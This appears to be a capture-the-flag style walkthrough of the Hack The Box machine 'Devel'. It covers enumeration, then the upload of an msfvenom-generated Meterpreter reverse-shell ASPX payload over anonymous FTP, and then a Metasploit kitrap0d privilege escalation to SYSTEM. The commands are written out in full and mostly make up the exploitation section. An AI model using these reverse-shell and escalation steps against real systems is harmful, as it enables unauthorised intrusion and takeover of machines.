






# Devel

## 1. Overview

### 1.1. Attacks

* ftp
* http

### 1.2. Tools used

**Enumeration** &rarr; `nmap`, `dirbuster`.

**Exploitation** &rarr; `http (IIS7)`, `ftp`.

## 2. Walkthrough

### 2.1. Enumeration

#### 2.1.1. nmap

##### 2.1.1.1. Ports





**Finding:** Header has the version in it.



**Finding:** FTP login allowed.

##### 2.1.1.2. Host Details



#### 2.1.2. IIS7 Website



**Finding:** Template IIS7 Webpage out in the open.

#### 2.1.3. Dirbuster




### 2.2. Exploitation

#### 2.2.1. Sources

[[NetSec] Creating Metasploit Payloads](https://netsec.ws/?p=331)

#### 2.2.2. Metasploit

```sh
root@kali:~> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.9 LPORT=4444 -f aspx > ex.aspx
```

```msf
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.10.14.9
msf5 exploit(multi/handler) > run
```

Now we're listening to port `4444`. We start an `ftp` connection with `anonymous` as both username and password, since it's allowed.

```ftp
ftp> binary # Try this if put doesn't work
ftp> put ex.aspx
```

Go to: `10.10.10.5/ex.aspx` and in the tab with Metasploit listening we have a Meterpreter shell.

```sh
meterpreter > sysinfo
Computer        : DEVEL
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : el_GR
Domain          : HTB
Logged On Users : 0
Meterpreter     : x86/windows
meterpreter > getuid
Server username: IIS APPPOOL\Web
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: Access is denied.
```

We're not SYSTEM!

```msf
meterpreter > background
msf5 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf5 post(multi/recon/local_exploit_suggester) > set SESSION 1
msf5 post(multi/recon/local_exploit_suggester) > run
```

We can use these suggested tools:

```msf
msf5 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms10_015_kitrap0
msf5 exploit(windows/local/ms10_015_kitrap0d) > set session 1
msf5 exploit(windows/local/ms10_015_kitrap0d) > set LHOST 10.10.14.9
msf5 exploit(windows/local/ms10_015_kitrap0d) > set LPORT 4445
msf5 exploit(windows/local/ms10_015_kitrap0d) > run
```

```sh
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
